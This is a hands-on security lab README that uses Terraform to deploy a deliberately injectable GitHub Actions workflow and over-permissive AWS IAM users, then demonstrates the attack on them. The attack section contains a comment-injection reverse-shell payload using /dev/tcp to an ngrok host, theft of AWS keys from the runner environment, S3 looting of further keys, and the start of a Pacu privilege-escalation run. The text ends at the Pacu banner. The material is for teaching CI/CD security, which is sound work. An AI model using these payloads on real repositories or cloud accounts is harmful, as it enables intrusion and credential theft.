







# From the Pipes to the Clouds

Hack your way from Github Action pipelines to AWS!

## Abstract
This lab enables provisioning of all necessary infrastructure for demonstrating an attack scenario in which a malicious actor starts by compromising a [*Github Action*](https://github.com/features/actions), performs lateral movement across an [*AWS*](https://aws.amazon.com/) account and, eventually, escalates privileges to aws administrator.  

Specifically, the attack comprises the following phases:  

1. Injection of a malicious comment into a Github issue to trigger a Github Action that initiates a reverse shell ([*Poisoned Pipeline Execution*](../../ci-cd/ppe/README.md)). 

2. Extraction of secrets from the runner via the reverse shell, uncovering AWS keys.  

3. Enumeration of AWS resources using the previously extracted secrets, revealing read access to the contents of an [*S3 bucket*](https://aws.amazon.com/pm/serv-s3).  

4. The bucket contains some files: you uncover additional AWS keys.  

5. Leveraging these keys, you employ [*Pacu*](https://github.com/RhinoSecurityLabs/pacu) to perform privilege escalation and gain root access across the entire AWS account.  

  


## Prerequisites
- [*python*](https://www.python.org/downloads/)
- [*terraform*](https://www.terraform.io/)
- [*github*](https://github.com/) account
- [*aws*](https://aws.amazon.com/) account 
- [*ngrok*](https://ngrok.com/) account
- [*aws cli*](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html)
- [*pacu*](https://github.com/RhinoSecurityLabs/pacu)

## INFRASTRUCTURE PROVISIONING

In order for the lab to work, you need to provision some infrastructure, in particular:

- a github repository
- some aws resources

You will use `terraform` for this task.  

### aws setup

First you will setup the required aws environment.  
You will create one S3 bucket and two IAM users (along with required IAM policies):
- `ppe-s3-readonly-user`
- `vulnerable-iam-user`


Cd to the `infra/aws` directory and create a new file called `secret.tfvars`.  
This file will contain all the variables required to setup the github repository, as well as our aws keys (retrieved from the aws terraform step): 

```sh
aws_region = "your-aws-region-here"
s3_bucket_name ="your-aws-s3-bucket-name-for-this-demo-here"
```  

Now you can proceed with terraform provisioning (note, you need to have aws cli already installed and configured with sufficient rights for this step).  
Init the terraform module:  
```sh
terraform init
```  


Now launch a terraform plan by specifying the secret's file:  

```sh
terraform plan -var-file="secret.tfvars"
```  

The plan should look similar to this:  
```sh
  # aws_iam_access_key.ppe_s3_readonly_access_key will be created
  + resource "aws_iam_access_key" "ppe_s3_readonly_access_key" {
      + create_date                    = (known after apply)
      + encrypted_secret               = (known after apply)
      + encrypted_ses_smtp_password_v4 = (known after apply)
      + id                             = (known after apply)
      + key_fingerprint                = (known after apply)
      + secret                         = (sensitive value)
      + ses_smtp_password_v4           = (sensitive value)
      + status                         = "Active"
      + user                           = "ppe-s3-readonly-user"
    }

  # aws_iam_access_key.vulnerable_iam_access_key will be created
  + resource "aws_iam_access_key" "vulnerable_iam_access_key" {
      + create_date                    = (known after apply)
      + encrypted_secret               = (known after apply)
      + encrypted_ses_smtp_password_v4 = (known after apply)
      + id                             = (known after apply)
      + key_fingerprint                = (known after apply)
      + secret                         = (sensitive value)
      + ses_smtp_password_v4           = (sensitive value)
      + status                         = "Active"
      + user                           = "vulnerable-iam-user"
    }

  # aws_iam_user.ppe_s3_readonly_user will be created
  + resource "aws_iam_user" "ppe_s3_readonly_user" {
      + arn           = (known after apply)
      + force_destroy = false
      + id            = (known after apply)
      + name          = "ppe-s3-readonly-user"
      + path          = "/"
      + tags_all      = (known after apply)
      + unique_id     = (known after apply)
    }

  # aws_iam_user.vulnerable_iam_user will be created
  + resource "aws_iam_user" "vulnerable_iam_user" {
      + arn           = (known after apply)
      + force_destroy = false
      + id            = (known after apply)
      + name          = "vulnerable-iam-user"
      + path          = "/"
      + tags_all      = (known after apply)
      + unique_id     = (known after apply)
    }

  # aws_iam_user_policy.ppe_s3_readonly_policy will be created
  + resource "aws_iam_user_policy" "ppe_s3_readonly_policy" {
      + id          = (known after apply)
      + name        = "ppe-s3-readonly-policy"
      + name_prefix = (known after apply)
      + policy      = jsonencode(
            {
              + Statement = [
                  + {
                      + Action   = [
                          + "s3:ListBucket",
                          + "s3:ListAllMyBuckets",
                          + "s3:GetObject",
                        ]
                      + Effect   = "Allow"
                      + Resource = "*"
                    },
                ]
              + Version   = "2012-10-17"
            }
        )
      + user        = "ppe-s3-readonly-user"
    }

  # aws_iam_user_policy.vulnerable_iam_policy will be created
  + resource "aws_iam_user_policy" "vulnerable_iam_policy" {
      + id          = (known after apply)
      + name        = "vulnerable-iam-policy"
      + name_prefix = (known after apply)
      + policy      = jsonencode(
            {
              + Statement = [
                  + {
                      + Action   = [
                          + "iam:SimulatePrincipalPolicy",
                          + "iam:SimulateCustomPolicy",
                          + "iam:Put*",
                          + "iam:List*",
                          + "iam:Get*",
                        ]
                      + Effect   = "Allow"
                      + Resource = "*"
                      + Sid      = "Statement1"
                    },
                ]
              + Version   = "2012-10-17"
            }
        )
      + user        = "vulnerable-iam-user"
    }

  # aws_s3_bucket.ppe_attack_demo_bucket will be created
  + resource "aws_s3_bucket" "ppe_attack_demo_bucket" {
      + acceleration_status         = (known after apply)
      + acl                         = (known after apply)
      + arn                         = (known after apply)
      + bucket                      = "s3-bucket-ppe-attack-demo-4421"
      + bucket_domain_name          = (known after apply)
      + bucket_prefix               = (known after apply)
      + bucket_regional_domain_name = (known after apply)
      + force_destroy               = true
      + hosted_zone_id              = (known after apply)
      + id                          = (known after apply)
      + object_lock_enabled         = (known after apply)
      + policy                      = (known after apply)
      + region                      = (known after apply)
      + request_payer               = (known after apply)
      + tags                        = {
          + "Environment" = "demo"
        }
      + tags_all                    = {
          + "Environment" = "demo"
        }
      + website_domain              = (known after apply)
      + website_endpoint            = (known after apply)

      + cors_rule (known after apply)

      + grant (known after apply)

      + lifecycle_rule (known after apply)

      + logging (known after apply)

      + object_lock_configuration (known after apply)

      + replication_configuration (known after apply)

      + server_side_encryption_configuration (known after apply)

      + versioning (known after apply)

      + website (known after apply)
    }

Plan: 7 to add, 0 to change, 0 to destroy.

Changes to Outputs:
  + ppe_s3_readonly_access_key_id     = (known after apply)
  + ppe_s3_readonly_access_key_secret = (sensitive value)
  + vulnerable_iam_access_key_id      = (known after apply)
  + vulnerable_iam_access_key_secret  = (sensitive value)
```  


If you are ok with it, apply!

```sh
terraform apply -var-file="secret.tfvars"
```  

The previous command will take less than a minute to complete and will return the keys ID for the two IAM users:  
```sh
Apply complete! Resources: 7 added, 0 changed, 0 destroyed.

Outputs:

ppe_s3_readonly_access_key_id = "AKI*************"
ppe_s3_readonly_access_key_secret = <sensitive>
vulnerable_iam_access_key_id = "AKI*************"
vulnerable_iam_access_key_secret = <sensitive>
```  

Now you need to add the keys for the `vulnerable-iam-user` inside the local `repo-content` folder.  
In order to do that, open the `terraform.tfstate` file, retrieve both the access key id and access key value for the `vulnerable-iam-user`  
and put them inside a file called `aws_keys.txt` inside the `repo-content` directory.  

Now is time to push that directory to the S3 bucket you created:  
```sh
aws s3 sync repo-content s3://s3-bucket-ppe-attack-demo-4421
```  

output of the previous command:  
```sh
upload: repo-content/README.md to s3://s3-bucket-ppe-attack-demo-4421/README.md
upload: repo-content/aws_keys.txt to s3://s3-bucket-ppe-attack-demo-4421/aws_keys.txt
upload: repo-content/test.py to s3://s3-bucket-ppe-attack-demo-4421/test.py
```  

The last thing you need to do is to get the secret access key id and value of the `ppe-s3-readonly-user` from  
the `terraform.tfstate` file, you will need them to setup the github repository in the next step!  


### github setup
Now that you've completed the creation of all required resources on aws, proceed with the github setup.  

This will create a repository with a Github Action that automatically prints the body of new comments added to existing issues.   

**Note**: for security reasons you will make the repository private but the same attack can be carried out against public repositories!  
This is what make this type of attack so dangerous: **the threat actor only needs to write a comment!**  

Cd to the `infra/github` directory and create a new file called `secret.tfvars`.  
This file will contain all the secrets required to setup the github repository, as well as the aws keys for the `ppe-s3-readonly-user` (retrieved from the aws terraform step): 

```sh
gh_owner = "your-github-account-or-org-here"
gh_token="your-github-pat-here"
github_actions_secret_aws_key_id="your-aws-secret-key-id-here"
github_actions_secret_aws_key_value="your-aws-secret-key-value-here"
``` 

Init the terraform module:  
```sh
terraform init
```  


Now launch a terraform plan by specifying the secret's file:  

```sh
terraform plan -var-file="secret.tfvars"
```  

The plan should look similar to this:  

```sh
Terraform will perform the following actions:

  # github_actions_secret.aws_key_id will be created
  + resource "github_actions_secret" "aws_key_id" {
      + created_at      = (known after apply)
      + id              = (known after apply)
      + plaintext_value = (sensitive value)
      + repository      = "ppe"
      + secret_name     = "AWS_ACCESS_KEY_ID"
      + updated_at      = (known after apply)
    }

  # github_actions_secret.aws_key_value will be created
  + resource "github_actions_secret" "aws_key_value" {
      + created_at      = (known after apply)
      + id              = (known after apply)
      + plaintext_value = (sensitive value)
      + repository      = "ppe"
      + secret_name     = "AWS_SECRET_ACCESS_KEY"
      + updated_at      = (known after apply)
    }

  # github_repository.ppe will be created
  + resource "github_repository" "ppe" {
      + allow_auto_merge            = false
      + allow_merge_commit          = true
      + allow_rebase_merge          = true
      + allow_squash_merge          = true
      + archived                    = false
      + auto_init                   = true
      + default_branch              = (known after apply)
      + delete_branch_on_merge      = false
      + description                 = "Super Popular OSS Repo"
      + etag                        = (known after apply)
      + full_name                   = (known after apply)
      + git_clone_url               = (known after apply)
      + has_issues                  = true
      + html_url                    = (known after apply)
      + http_clone_url              = (known after apply)
      + id                          = (known after apply)
      + merge_commit_message        = "PR_TITLE"
      + merge_commit_title          = "MERGE_MESSAGE"
      + name                        = "ppe"
      + node_id                     = (known after apply)
      + primary_language            = (known after apply)
      + private                     = (known after apply)
      + repo_id                     = (known after apply)
      + squash_merge_commit_message = "COMMIT_MESSAGES"
      + squash_merge_commit_title   = "COMMIT_OR_PR_TITLE"
      + ssh_clone_url               = (known after apply)
      + svn_url                     = (known after apply)
      + topics                      = (known after apply)
      + visibility                  = "private"
      + web_commit_signoff_required = false

      + security_and_analysis (known after apply)
    }

  # github_repository_file.github_actions_workflow will be created
  + resource "github_repository_file" "github_actions_workflow" {
      + branch              = "main"
      + commit_message      = (known after apply)
      + commit_sha          = (known after apply)
      + content             = <<-EOT
            name: issue comment workflow
            on:
              issue_comment:
                types: [created]
            jobs:
              auto-manage-new-issue:
                runs-on: ubuntu-latest
                steps:
                  - name: Retrieve Issue Information
                    run: |
                      echo "NEW ISSUE COMMENT ✍️" && echo ${{ github.event.comment.body }}
                    env:
                      AWS_ACCESS_KEY_ID: ${{ secrets.AWS_ACCESS_KEY_ID }}
                      AWS_SECRET_ACCESS_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}
        EOT
      + file                = ".github/workflows/issue.yaml"
      + id                  = (known after apply)
      + overwrite_on_create = false
      + ref                 = (known after apply)
      + repository          = "ppe"
      + sha                 = (known after apply)
    }

  # github_repository_file.readme will be created
  + resource "github_repository_file" "readme" {
      + branch              = "main"
      + commit_message      = (known after apply)
      + commit_sha          = (known after apply)
      + content             = <<-EOT
            # PPE
            
            Super Popular Open Source Repo!
        EOT
      + file                = "README.md"
      + id                  = (known after apply)
      + overwrite_on_create = true
      + ref                 = (known after apply)
      + repository          = "ppe"
      + sha                 = (known after apply)
    }

Plan: 5 to add, 0 to change, 0 to destroy.

Changes to Outputs:
  + repository_url = (known after apply)
```  

If you are ok with it, apply!

```sh
terraform apply -var-file="secret.tfvars"
```  

The previous command will take less than a minute to complete and will return the url of the new repo, in my case:  
```sh
Apply complete! Resources: 5 added, 0 changed, 0 destroyed.

Outputs:

repository_url = "https://github.com/R3DRUN3/ppe"
```  

navigate to that url and check that everything is ok, you should find a repository like this:  


  


Create a new issue on that repo:  
  


Now you can proceed with the attack! 💪


## ATTACK DEMONSTRATION 

Add a new comment to the issue:  

  

and observe that the github action has been triggered by your comment:  
  


As an attacker, seeing that issue makes you suspicious and you trying scanning the repo with [*poutine*](https://github.com/boostsecurityio/poutine):  
```sh
docker run -e GH_TOKEN ghcr.io/boostsecurityio/poutine:latest analyze_repo r3drun3/ppe
```  

From the output you read:  
```console
Rule: Injection with Arbitrary External Contributor Input
Severity: warning
Description: The pipeline contains an injection into bash or JavaScript with an expression 
that can contain user input. Prefer placing the expression in an environment variable 
instead of interpolating it directly into a script.
Documentation: https://boostsecurityio.github.io/poutine/rules/injection

+-------------+--------------------------------+---------------------------------------------------------------------------+
| REPOSITORY  |            DETAILS             |                                    URL                                    |
+-------------+--------------------------------+---------------------------------------------------------------------------+
| r3drun3/ppe | .github/workflows/issue.yaml   | https://github.com/r3drun3/ppe/tree/HEAD/.github/workflows/issue.yaml#L10 |
|             | Job: auto-manage-new-issue     |                                                                           |
|             | Step: 0                        |                                                                           |
|             | Sources:                       |                                                                           |
|             | github.event.comment.body      |                                                                           |
|             |                                |                                                                           |
+-------------+--------------------------------+---------------------------------------------------------------------------+
```  

So you inspect the github action:  

```yaml
name: issue comment workflow
on:
  issue_comment:
    types: [created]
jobs:
  auto-manage-new-issue:
    runs-on: ubuntu-latest
    steps:
      - name: Retrieve Issue Information
        run: |
          echo "NEW ISSUE COMMENT ✍️" && echo ${{ github.event.comment.body }}
        env:
          AWS_ACCESS_KEY_ID: ${{ secrets.AWS_ACCESS_KEY_ID }}
          AWS_SECRET_ACCESS_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}
```  

and you notice that they are echoing the content of the issue body (`${{ github.event.comment.body }}`) without sanitizing it!  

At this point you can proceed to poison the execution 😈  

In order to do that you can use [*ngrok*](https://ngrok.com/) (you can also use [*Cloudflare Tunnels*](https://www.cloudflare.com/products/tunnel/) or whatever tool fit the need to seamlessy expose a local service to the internet).  


Open a new nectcat listener on your local machine:  
```sh
nc -lnvp 1337
```  

Forward an ngrok tcp tunnel on the same port: 

```sh
ngrok tcp 1337
```  

Now, retrieve the `Forwarding` address (DNS name) from ngrok output and execute a dns lookup in order to obtain the public IP.  

Our payload will be:  
```console
"" && bash -i >& /dev/tcp/<NGROK-IP-HERE>/<NGROK-PORT-HERE> 0>&1
```  

  

This will trigger the github action and open a reverse shell from within the github runner, back to your local machine!  

```console
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 40158
bash: cannot set terminal process group (469): Inappropriate ioctl for device
bash: no job control in this shell
runner@fv-az1655-134:~/work/ppe/ppe$ whoami
runner
runner@fv-az1655-134:~/work/ppe/ppe$ id
uid=1001(runner) gid=127(docker) groups=127(docker),4(adm),101(systemd-journal)
```   

At this point you have access to that runner environment and you find some aws keys!    

```sh
runner@fv-az1655-134:~/work/ppe/ppe$ env | grep AWS

AWS_SECRET_ACCESS_KEY=kG***************************************
AWS_ACCESS_KEY_ID=AK*****************
```  

save those keys and close the reverse shell:

**AWS ENUMERATION BEGIN!**  


Export those keys in order to use them with the aws cli:  
```sh
export AWS_ACCESS_KEY_ID=AK*****************
export AWS_SECRET_ACCESS_KEY=kG***************************************
```  

Now retrieve information about your current aws identity:  
```sh
aws sts get-caller-identity
```  

Output:  
```json
{
    "UserId": "<USER-ID-HERE>",
    "Account": "<ACCOUNT-ID-HERE>",
    "Arn": "arn:aws:iam::<ACCOUNT-ID-HERE>:user/ppe-s3-readonly-user"
}
```  

From this you learn that our current user is called `ppe-s3-readonly-user`.  


Let's try to retrieve more info about our current user:  
```sh
aws iam get-user --user-name ppe-s3-readonly-user
``` 

output: 
```sh
An error occurred (AccessDenied) when calling the GetUser operation: User: arn:aws:iam:user/ppe-s3-readonly-user is not authorized to perform: iam:GetUser on resource: user ppe-s3-readonly-user because no identity-based policy allows the iam:GetUser action
```  


Let's try to list the attached policies for our user:  
```sh
aws iam list-attached-user-policies --user-name ppe-s3-readonly-user
```  

output:  
```sh
An error occurred (AccessDenied) when calling the ListAttachedUserPolicies operation: User: arn:aws:iam:user/ppe-s3-readonly-user is not authorized to perform: iam:ListAttachedUserPolicies on resource: user ppe-s3-readonly-user because no identity-based policy allows the iam:ListAttachedUserPolicies action
```  

Seems like our current user does not have grants to call these basic aws api...however the user name can be an indication, let's try to list S3 buckets:  

```sh
aws s3api list-buckets
```  

output:  
```json
{
    "Buckets": [
        {
            "Name": "s3-bucket-ppe-attack-demo-4421",
            "CreationDate": "2024-07-11T11:28:34.000Z"
        }
    ],
    "Owner": {
        "ID": "f3701bace7c0f6dce6360e5d34bd3b6ef364e7609eb8fc12d413add19d993b73"
    }
}
```  

Yes! you are able to list a bucket!  
Can you also download its content?  

```sh
aws s3 sync s3://s3-bucket-ppe-attack-demo-4421 ./s3-download
```  

output:  
```sh
download: s3://s3-bucket-ppe-attack-demo-4421/test.py to s3-download/test.py
download: s3://s3-bucket-ppe-attack-demo-4421/aws_keys.txt to s3-download/aws_keys.txt
download: s3://s3-bucket-ppe-attack-demo-4421/README.md to s3-download/README.md
```  
You can!
and you also see that there is a file called `aws_keys.txt`  

Inside that file other aws access keys, export those and begin enumeration for the new user:  
```sh
aws sts get-caller-identity
```  

output:  
```json
{
    "UserId": "<USER-ID-HERE>",
    "Account": "<ACCOUNT-ID-HERE>",
    "Arn": "arn:aws:iam::<ACCOUNT-ID-HERE>:user/vulnerable-iam-user"
}
```  

Our new user is called `vulnerable-iam-user`, lets list it's policies:  
```sh
aws iam list-user-policies --user-name vulnerable-iam-user
```  

output:  
```json
{
    "PolicyNames": [
        "vulnerable-iam-policy"
    ]
}
```  

This is the policy:  

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Action": [
                "iam:Get*",
                "iam:List*",
                "iam:Put*",
                "iam:SimulateCustomPolicy",
                "iam:SimulatePrincipalPolicy"
            ],
            "Resource": "*"
        }
    ]
}
```  

It is a very permissive policy (it uses wildcards '*') and so maybe there is a way to achieve privilege escalation.  
To check for escalation paths you can use [*Pacu*](https://github.com/RhinoSecurityLabs/pacu), the aws exploitation framework!  

Launch the tool:  
```console
❯ pacu

 ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
 ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣤⣶⣿⣿⣿⣿⣿⣿⣶⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
 ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣾⣿⡿⠛⠉⠁⠀⠀⠈⠙⠻⣿⣿⣦⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
 ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠛⠛⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠻⣿⣷⣀⣀⣀⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀
 ⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣀⣀⣀⣀⣀⣀⣀⣀⣀⣤⣤⣤⣤⣤⣤⣤⣤⣀⣀⠀⠀⠀⠀⠀⠀⢻⣿⣿⣿⡿⣿⣿⣷⣦⠀⠀⠀⠀⠀⠀⠀
 ⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣀⣀⣀⣈⣉⣙⣛⣿⣿⣿⣿⣿⣿⣿⣿⡟⠛⠿⢿⣿⣷⣦⣄⠀⠀⠈⠛⠋⠀⠀⠀⠈⠻⣿⣷⠀⠀⠀⠀⠀⠀
 ⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣀⣀⣈⣉⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣧⣀⣀⣀⣤⣿⣿⣿⣷⣦⡀⠀⠀⠀⠀⠀⠀⠀⣿⣿⣆⠀⠀⠀⠀⠀
 ⠀⠀⠀⠀⠀⠀⠀⠀⢀⣀⣬⣭⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠿⠛⢛⣉⣉⣡⣄⠀⠀⠀⠀⠀⠀⠀⠀⠻⢿⣿⣿⣶⣄⠀⠀
 ⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠟⠋⣁⣤⣶⡿⣿⣿⠉⠻⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠙⢻⣿⣧⡀
 ⠀⠀⠀⠀⠀⠀⠀⠀⢠⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠟⠋⣠⣶⣿⡟⠻⣿⠃⠈⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⣿⣧
 ⢀⣀⣤⣴⣶⣶⣶⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠟⠁⢠⣾⣿⠉⠻⠇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿
